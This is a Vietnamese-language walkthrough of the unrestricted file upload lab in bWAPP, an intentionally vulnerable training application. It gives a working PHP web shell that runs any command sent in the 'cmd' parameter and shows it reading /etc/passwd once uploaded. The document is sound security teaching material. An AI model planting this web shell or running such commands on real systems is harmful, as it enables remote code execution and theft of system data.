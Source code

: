 # bWAPP: Unrestricted File Upload
## Mô tả bài lab
bWAPP (Buggy Web Application) là một ứng dụng web có nhiều lỗ hổng bảo mật, bao gồm cả lỗi bảo mật về File Upload, được thiết kế nhằm mục đích giáo dục và đào tạo về an ninh mạng. Nó được phát triển bởi nhóm bảo mật ITsec Games và là một công cụ mã nguồn mở. bWAPP giúp các nhà phát triển, người kiểm tra bảo mật (pentester), và sinh viên nghiên cứu cách thức phát hiện, khai thác và khắc phục các lỗ hổng bảo mật phổ biến trên các ứng dụng web.

## Các bước thực hiện

1. Khởi động bWAPP là log in bằng tài khoản user mặc định `bee:bug`.
2. Trên giao diện chính, chọn `Unrestricted File Upload` và chọn **Hack**.

![alt text](images/5.png)

3. Tạo file `file_upload_bWAPP.php`, file này sẽ được sử dụng để thực hiện lệnh gọi cmd trên ứng dụng web.

```php
<?php
	if(isset($_REQUEST['cmd'])){
	        echo "<pre>";
	        $cmd = ($_REQUEST['cmd']);
	        system($cmd);
	        echo "</pre>";
	        die;
	}
?>
```

4. Sử dụng **Browse** trên giao diện trang web để xác định vị trí file muốn upload, sau đó chọn **Submit**. Ứng dụng sẽ trả về thông báo upload thành công.
5. Chọn **here** trên thông báo để chuyển hướng tới file đã được upload, từ đây ta có thể thay đổi nội dung trên url để thực hiện các lệnh trên cmd. Ví dụ có thể điền thêm vào phía sau url nội dung như `?cmd=cat+/etc/passwd`.

![alt text](images/6.png)

